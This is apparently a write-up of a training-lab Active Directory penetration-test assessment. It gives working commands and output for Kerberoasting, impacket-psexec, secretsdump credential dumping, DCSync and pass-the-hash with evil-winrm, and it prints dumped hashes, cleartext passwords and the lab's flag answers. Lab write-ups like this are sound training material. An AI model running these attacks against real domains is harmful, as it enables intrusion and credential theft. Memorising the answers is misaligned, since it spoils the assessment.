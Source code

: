 # AD Enumeration & Attacks - Skills Assessment Part I

### Scenario

A team member started an External Penetration Test and was moved to another urgent project before they could finish. The team member was able to find and exploit a file upload vulnerability after performing recon of the externally-facing web server. Before switching projects, our teammate left a password-protected web shell (with the credentials: `admin:My_W3bsH3ll_P@ssw0rd!`) in place for us to start from in the `/uploads` directory. As part of this assessment, our client, Inlanefreight, has authorized us to see how far we can take our foothold and is interested to see what types of high-risk issues exist within the AD environment. Leverage the web shell to gain an initial foothold in the internal network. Enumerate the Active Directory environment looking for flaws and misconfigurations to move laterally and ultimately achieve domain compromise.

Apply what you learned in this module to compromise the domain and answer the questions below to complete part I of the skills assessment.

### Questions

**Submit the contents of the flag.txt file on the administrator Desktop of the web server**

<figure><img src="../../../.gitbook/assets/image (49) (2).png" alt=""><figcaption><p>got a revshell and obtained the flag.</p></figcaption></figure>

**Kerberoast an account with the SPN MSSQLSvc/SQL01.inlanefreight.local:1433 and submit the account name as your answer**

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption><p>svc_sql</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

**Crack the account's password. Submit the cleartext value.**

<figure><img src="../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption><p>lucky7</p></figcaption></figure>

**Submit the contents of the flag.txt file on the Administrator desktop on MS01**

we have to know what IP does MS01 has&#x20;

```
Resolve-IPAddress -ComputerName MS01
```

<figure><img src="../../../.gitbook/assets/image (20) (3).png" alt=""><figcaption><p>172.16.6.50</p></figcaption></figure>

When SMB scan was performed, there were ADMIN$ and C$ shares, which were read and writable.

<figure><img src="../../../.gitbook/assets/image (41).png" alt=""><figcaption><p>Admin share writable</p></figcaption></figure>

Next logical step is to run impacket-psexec to gain a shell using this credential.

```
C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> systeminfo
 
Host Name:                 MS01
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Member Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00429-00521-62775-AA100
Original Install Date:     3/30/2022, 3:56:23 AM
System Boot Time:          7/5/2023, 10:04:57 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.16707776.B64.2008070230, 8/7/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-06:00) Central Time (US & Canada)
Total Physical Memory:     4,095 MB
Available Physical Memory: 3,198 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 4,000 MB
Virtual Memory: In Use:    799 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    INLANEFREIGHT.LOCAL
Logon Server:              N/A
Hotfix(s):                 5 Hotfix(s) Installed.
                           [01]: KB5009472
                           [02]: KB4535680
                           [03]: KB4589208
                           [04]: KB5010427
                           [05]: KB5009642
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 172.16.6.50
                                 [02]: fe80::fc35:9ed3:e474:d620
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.

C:\Windows\system32> 

```

<figure><img src="../../../.gitbook/assets/image (2) (3).png" alt=""><figcaption><p>spn$<em>r0ast1ng_on</em>@n_0p3n_f1re</p></figcaption></figure>

Note that RDP is also available for this host.

**Find cleartext credentials for another domain user. Submit the username as your answer.**

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption><p>nothing useful</p></figcaption></figure>

```
proxychains impacket-secretsdump INLANEFREIGHT.LOCAL/svc_sql:lucky7@172.16.6.50 -outputfile inlanefreight_hashes 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.6.50:445  ...  OK
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x9521a9e7c65245ab8cdd792e7f6d20df
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bdaffbfe64f1fc646a3353be1c2c3c99:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:4b4ba140ac0767077aee1958e7f78070:::
[*] Dumping cached domain logon information (domain/username:hash)
INLANEFREIGHT.LOCAL/tpetty:$DCC2$10240#tpetty#685decd67a67f5b6e45a182ed076d801
INLANEFREIGHT.LOCAL/svc_sql:$DCC2$10240#svc_sql#acc5441d637ce6aabf3a3d9d4f8137fb
INLANEFREIGHT.LOCAL/Administrator:$DCC2$10240#Administrator#9553faad97c2767127df83980f3ac245
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
INLANEFREIGHT\MS01$:aes256-cts-hmac-sha1-96:7ec92cbf5c0978d63da9ca099e9e15131fa9f8f83f6e0c850dc27fbf5bd3c294
INLANEFREIGHT\MS01$:aes128-cts-hmac-sha1-96:34eddfc4c6391fe4fcea4cd8e6f000aa
INLANEFREIGHT\MS01$:des-cbc-md5:1a2c5df13885f80b
INLANEFREIGHT\MS01$:plain_password_hex:19e615bcf39b1aa4ee984e52f1d993a21c6943bd6d90ca901ff0a676620f637ee41049607477f7560972a707da615942143dd3ec94e50b4a73d1539f51e312b591594d5b365a52d56cfc4cc2bbe4cd5014165fd6e9ba47530321d9361e63a6de7400435ab03b6c15e45f222bb511637855b14f7807cd3b29622540ffadf25300326fea2d197d42dd0e70eb082147e355596f39ee809ce68092d89e56f6427824d436b3a932da26f4bfcf7cf0ec8024e222af81521df95eeca49d8a9260baafc27725e940c28299dfa54a6e997aa673d77f00d0bdf7a389aaf4cf0037f6c9d8165b6b185ec135b59eda45b74170a91ec6
INLANEFREIGHT\MS01$:aad3b435b51404eeaad3b435b51404ee:e97a877bf59d4102321bded442896bee:::
[*] DefaultPassword 
INLANEFREIGHT\tpetty:Sup3rS3cur3D0m@inU2eR
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x8dbe842a7352000be08ef80e32bb35609e7d1786
dpapi_userkey:0xb20d199f3d953f7977a6363a69a9fe21d97ecd19
[*] NL$KM 
 0000   A2 52 9D 31 0B B7 1C 75  45 D6 4B 76 41 2D D3 21   .R.1...uE.KvA-.!
 0010   C6 5C DD 04 24 D3 07 FF  CA 5C F4 E5 A0 38 94 14   .\..$....\...8..
 0020   91 64 FA C7 91 D2 0E 02  7A D6 52 53 B4 F4 A9 6F   .d......z.RS...o
 0030   58 CA 76 00 DD 39 01 7D  C5 F7 8F 4B AB 1E DC 63   X.v..9.}...K...c
NL$KM:a2529d310bb71c7545d64b76412dd321c65cdd0424d307ffca5cf4e5a03894149164fac791d20e027ad65253b4f4a96f58ca7600dd39017dc5f78f4bab1edc63
[*] Cleaning up... 
[*] Stopping service RemoteRegistry

```

```
tpetty:Sup3rS3cur3D0m@inU2eR
```

**Submit this user's cleartext password.**

```
Sup3rS3cur3D0m@inU2eR
```

**What attack can this user perform?**

```
$sid = Convert-NameToSid tpetty
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} 
```

<figure><img src="../../../.gitbook/assets/image (38) (1).png" alt=""><figcaption><p>DS-Replication-Get-Changes-All</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (10) (1).png" alt=""><figcaption><p>DS-Replication-Get-Changes-In-Filtered-Set</p></figcaption></figure>



DCSync

**Take over the domain and submit the contents of the flag.txt file on the Administrator Desktop on DC01**

First we have to know what IP is the DC by using the following command.

<figure><img src="../../../.gitbook/assets/image (7) (3).png" alt=""><figcaption><p>172.16.6.3</p></figcaption></figure>

```
proxychains impacket-secretsdump -just-dc INLANEFREIGHT/tpetty:'Sup3rS3cur3D0m@inU2eR'@172.16.6.3 -outputfile ilf_dcsync
```

<figure><img src="../../../.gitbook/assets/image (74).png" alt=""><figcaption></figcaption></figure>

We got the administrator hash, I tried to crack it but doesn't seems to work the next step will be pass the hash attack because of the dcsync command seems to be going on forever with more than thousand people already.

`27dedb1dab4d8545c6e1c66fba077da0`

xfreerdp didn't work but evil-winrm did

```
proxychains evil-winrm -i 172.16.6.3 -u Administrator -H 27dedb1dab4d8545c6e1c66fba077da0
```

<figure><img src="../../../.gitbook/assets/image (27).png" alt=""><figcaption><p>r3plicat1on_m@st3r!</p></figcaption></figure>
